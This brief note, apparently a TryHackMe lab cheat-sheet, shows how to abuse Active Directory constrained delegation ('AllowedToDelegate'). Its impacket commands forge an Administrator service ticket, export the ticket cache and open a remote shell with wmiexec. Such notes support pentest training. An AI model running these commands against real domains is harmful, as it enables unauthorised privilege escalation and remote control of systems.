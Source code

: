 # AllowedToDelegate

---

When in BloodHound "AllowedToDelegate" is set, we can abuse the following command to gain elevated privs:

```
/usr/share/doc/python3-impacket/examples/getST.py -k -impersonate Administrator -spn cifs/HAYSTACK.THM.CORP THM.CORP/DARLA_WINTERS
```

We need to export the file we retrieved

```
export KRB5CCNAME=./Administrator@cifs_HAYSTACK.THM.CORP@THM.CORP.ccache
```

Logging in with credentials:

```
impacket-wmiexec -k -no-pass THM.CORP/Administrator@HayStack.thm.corp
```
